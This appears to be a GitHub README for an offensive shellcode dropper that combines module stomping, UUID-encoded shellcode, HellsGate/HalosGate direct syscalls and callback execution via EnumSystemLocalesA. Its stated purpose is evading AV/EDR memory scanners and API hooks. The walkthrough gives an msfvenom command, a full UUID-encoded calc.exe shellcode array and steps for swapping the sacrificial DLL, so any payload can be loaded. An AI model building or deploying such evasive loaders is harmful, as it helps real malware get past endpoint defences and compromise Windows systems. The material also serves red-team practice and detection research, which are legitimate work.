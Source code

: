 # Module-Stomping UUID2Shellcode HellsGate Dropper
Module Stomping, No New Thread, HellsGate syscaller, UUID to shellcode Dropper for x64 Windows 10!

## About
Typically shellcode is loaded into the processes Heap or the `VirtualAlloc()` API is used to reserve a private section of memory within the process. For the shellcode to execute, the allocated memory must be marked executable. This is typically done by calling the `VirtualProtect()` API to change the allocated memory from `RW` (Read-Write) to `RX` (Read-Execute). These executable memory sections are easy to detect when they are not backed by a module, such as the executable section of the host process or a Dynamically Loaded Libraries (DLLs) executable code section. To evade this detection, Module Stomping can be used.

Module Stomping is where the malware will load a DLL into the processes memory using the `LoadLibrary()` API, change the permissions of the loaded libraries memory to `RW` (writable), overwrite the DLL memory with the shellcode, change the module-backed memory back to `RX` (executable), and then execute the shellcode from the DLL memory. When the memory is scanned, the shellcode will appear to be just the executable code from the loaded DLL. Therefor this may evade some AV/EDR dynamic memory scanners.

Sektor7 does a better job of explaining it, and I recommend you check out there courses if you'd like to dive deeper: [institute.sektor7.net](https://institute.sektor7.net/)

This dropper uses the Module Stomping technique described above, in combination with the:
+ Deobfuscates the shellcode payload from UUIDs
  + The UUID payload helps to decrease the shellcodes entropy, which can help evade some detection methods 
+ Crawls the in memory list of loaded modules to discover the base addresses of `ntdll.dll` and `kernel32.dll`
+ Resolves `NTAPI` & `WINAPI` APIs by using a custom implementation of `GetProcAddress()` written in Assembly
+ HellGate Technique to resolve the Windows System Calls dynamically by reading the memory of `ntdll.dll`
+ Uses HalosGate Technique to resolve the Windows System Calls if `ntdll.dll` is hooked by AV/EDR
+ Changes the memory protection of the DLL using syscalls
+ "No New Thread" technique which uses `EnumSystemLocalesA()` to execute the UUID decoded shellcode

#### Created with [Matt Kingstone](https://twitter.com/n00bRage)

## Walkthrough Example with MSF PopCalc
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`

### Optionally Change Sacraficial DLL
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
- https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
- https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
- https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c
